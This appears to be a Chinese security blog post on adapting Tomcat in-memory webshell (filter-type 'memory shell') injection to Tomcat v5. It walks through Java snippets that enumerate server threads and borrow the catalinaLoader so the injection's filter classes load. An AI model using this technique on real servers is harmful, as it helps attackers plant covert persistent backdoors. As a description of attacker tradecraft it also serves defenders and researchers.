







Tomcat v5 不同的类加载机制
---


### 0x00 前言

前段时间适配了 Tomcat 低版本 (v5) 的内存马，发现其类加载机制区别于较高版本, 采用以往的姿势会抛 ClassNotFound 异常，后面通过翻文档找到正确的类加载器成功解决。

### 0x01 简介

Tomcat v5 的文档中 `Class Loader Definitions` 部分存在一段区别于 tomcat v6/7/8/9 的一段定义

- https://tomcat.apache.org/tomcat-5.5-doc/class-loader-howto.html




`$CATALINA_HOME/server/lib/catalina.jar`  由ClassLoader `catalinaLoader` 进行加载，而且该由该Class Loader加载的类和资源对 web application 不可见。

```
Q: 这部分差异会给实战带来什么问题呢？
A: 由于位于 $CATALINA_HOME/server/lib 下的类对 web app 不可见，意味着 web app 的线程上下文类加载器无法加载到 catalina.jar 中的类, 如 org.apache.catalina.deploy.FilterDef 等, 所以会抛出 ClassNotFound 异常, 从而导致内存马注入失败。
```

附：Tomcat v6  `$CATALINA_HOME/server/lib` 的 Class Loader 定义

- https://tomcat.apache.org/tomcat-6.0-doc/class-loader-howto.html
    - `$CATALINA_HOME/server/lib/catalina.jar` -> `visible `




### 0x02 问题重现

攻防中，在注入 Filter 型内存马时为了减少编译时的依赖，通常会使用下面的代码片段来反射来加载相关类

```java
try{
// tomcat v8/9
  filterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef").newInstance();
  filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap").newInstance();
}catch (Exception e){
// tomcat v6/7
  filterDef = Class.forName("org.apache.catalina.deploy.FilterDef").newInstance();
  filterMap = Class.forName("org.apache.catalina.deploy.FilterMap").newInstance();
}
```

这段代码在 tomcat v6/7/8/9 上基本满足需求，但是当目标是 Tomcat v5 时，会抛出异常: ClassNotFound

如图



因为此时加载目标类的 ClassLoader 不是 `catalinaLoader`。


### 0x03 解决方案

**Class.forName** 作为一个用来加载类的静态方法，共有两种方式：

- Class.forName(String className)

- Class.forName(String name, boolean initialize, ClassLoader loader)

使用第一种时，默认 loader 的值为当前类的类加载器，而不是 `catalinaLoader`，自然无法成功加载。


解决思路

- 调用 Class.forName() 进行加载类时指定 loader 为 `catalinaLoader` 即可

```
Class.forName("org.apache.catalina.deploy.FilterDef", true, catalinaLoader) 
```

问题转变成了如何获取 `catalinaLoader` 。


解决思路

- 既然 web app 线程的上下文类加载器不行，那么只需要在 tomcat 的其他线程里找到 `catalinaLoader` 即可

遍历线程，成功在 `ContainerBackgroundProcessor` 线程里找到了符合预期的 ClassLoader,  其 `URLClassPath` 定义里有所需要的 `catalina.jar`。

如图



问题解决了 80%，成功加载到 `FilterDef`

```
Class.forName("org.apache.catalina.deploy.FilterDef", true, threads[32].getContextClassLoader()); 
```

如图



剩下 20% 只需要把遍历线程的的步骤用代码实现即可

```java
Method method = Thread.class.getDeclaredMethod("getThreads");
method.setAccessible(true);
Thread[] threads = (Thread[]) method.invoke(null);
for (int i = 0; i < threads.length; i++) {
  // 适配 tomcat v5 的 Class Loader 问题
  if (threads[i].getName().contains("ContainerBackgroundProcessor")) {
    catalinaLoader = threads[i].getContextClassLoader();
    return;
  }
}
```

成功加载到 `FilterDef/FilterMap`



---

测试效果：在 Tomcat v5 注入内存马




### 0x04 小结

遍历线程获取到合适的 ClassLoader 的姿势不只适用于这里, 在其他中间件的场景也可复用。